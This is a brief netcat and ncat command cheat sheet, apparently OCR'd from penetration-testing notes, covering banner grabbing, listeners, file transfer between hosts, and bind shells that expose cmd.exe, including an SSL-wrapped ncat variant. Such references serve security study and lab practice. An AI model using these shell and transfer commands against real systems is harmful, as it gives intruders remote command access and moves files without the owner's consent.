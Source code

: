 _Netcat_  
nc -nv TargetIP port  #connect to port,client/banner grab  
nc -nlvp 4444  #start netcat server  

nc -nv TargetIP 4444 </usr/share/windows-binaries/wget.exe #send file to listening netcat server  
nc -nlvp 4444 > incoming.exe #receive file from client pipe into exe  

nc -lvp 4444 -e cmd.exe #bind shell server  
nc -vn TargetIP 4444 #bind shell client  

_Ncat_  
ncat -lvp 4444 -e cmd.exe --allow ClientIP --ssl #ncat server bind shell only to clientip with ssl encryption  
ncat -v ServerIP 4444 --ssl #client connect bind 
